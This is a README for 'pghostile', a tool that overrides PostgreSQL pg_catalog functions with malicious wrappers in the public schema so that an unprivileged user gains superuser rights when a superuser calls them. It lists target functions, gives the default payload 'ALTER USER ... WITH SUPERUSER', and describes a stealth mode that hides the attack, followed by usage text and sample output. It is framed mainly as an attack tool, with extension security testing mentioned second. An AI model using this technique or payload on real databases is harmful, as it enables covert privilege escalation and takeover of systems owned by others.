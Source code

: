 # PGHOSTILE
Pghostile can make PostgreSQL an hostile environment for superusers and a funny playground for attackers.  
Pghostile is a automated tool for overriding "system" functions (the ones from the 'pg_catalog' schema) allowing an attacker to elevate privileges if/when these functions are called by a superuser.


It can be also used to test the security of the PostgreSQL extension. You can run pghostile to create the "exploit functions" and then run the extension's own unit tests and see if your user got superuser power after that.

## How it works
In PostgreSQL every function is identified by it's name plus the number/types of arguments (like in Java). If a function is defined to accept a numberic value and you define a function with the same name that accepts an integer you function will be called if the input parameter is an integer and the original one will be called if the input is a float.  
Considering that an unprivileged user can create functions in the public schema and that the public schema is part of the 'search_path', it's relatively easy to trick a superuser to run code from public instead of pg_catalog.

In a few words, pghostile searches pg_catalog for functions that can be overridden and creates a malicious wrapper of them in the public schema.

Currently, it can identify ~150 functions/parameters combinations that can lead to privilege escalation. To give an example, the list below contains some of these functions:
```SQL
select sha256('a');
select byteaout('a');
select int4(1);
select btarraycmp(array [1, 2], array [1, 2]);
select array_position(array [1, 2], 1, 1);
select unnest(array [1, 2]);
select array_remove(array [1, 2], 1);
select array_replace(array [1, 2], 1, 1);
select varcharout('a');
select log(1);
select log10(1);
select ln(1);
select round(1);
select trunc(1);
select sqrt(1);
select pow(1, 1);
select power(1, 1);
select exp(1);
```

Then, if the superuser runs something like `select sha256('test123')` you will be superuser in no time ;)

## Usage
```
positional arguments:
  db_username           Database username
  db_name               Database name

optional arguments:
  -h, --help            show this help message and exit
  -X, --disable-exploits-creation
                        Do not create exploit functions
  -H DB_HOST, --db-host DB_HOST
                        Database host (default 127.0.0.1)
  -p DB_PORT, --db-port DB_PORT
                        Database port
  -P, --ask-pass        Prompt for database passsword
  -o OUT, --out OUT     Output dir (deafult ./out)
  -T, --skip-tests      Disable test
  -s, --disable-stealth-mode
                        Disable stealth mode
  -S DB_SSL_MODE, --db-ssl-mode DB_SSL_MODE
                        Database ssl mode (default None)
  -x EXPLOIT_PAYLOAD, --exploit-payload EXPLOIT_PAYLOAD
                        The SQL commands
```

With the -X option you can disable the actual exploit creation. It will just run the tests to see which functions can be overridden.  
With the -T option you can disable the tests and just create the exploit functions.  
The -x option allows you to specify what SQL command(s) should be used in your exploit. By default it's ```ALTER USER <db_username> WITH SUPERUSER;```.  
The -s option disables the "stealth mode". In stealth mode the wrapping functions will call the original function from pg_catalog, in this way the superuser won't see any anomaly when calling a wrapped function.  

### Example
```
pghostile.py user1 testdb -H 10.211.55.12
```
```
Starting ... 

[ * ] 332 interesting functions have been identified
[ * ] Creating test functions
[ * ] Testing functions
[ * ] Deleting test functions
[ * ] Creating exploit functions
[ * ] Done! 251 functions have been created

150 exploitable functions and params combinations have been tested!
The './out' folder contains the output
```


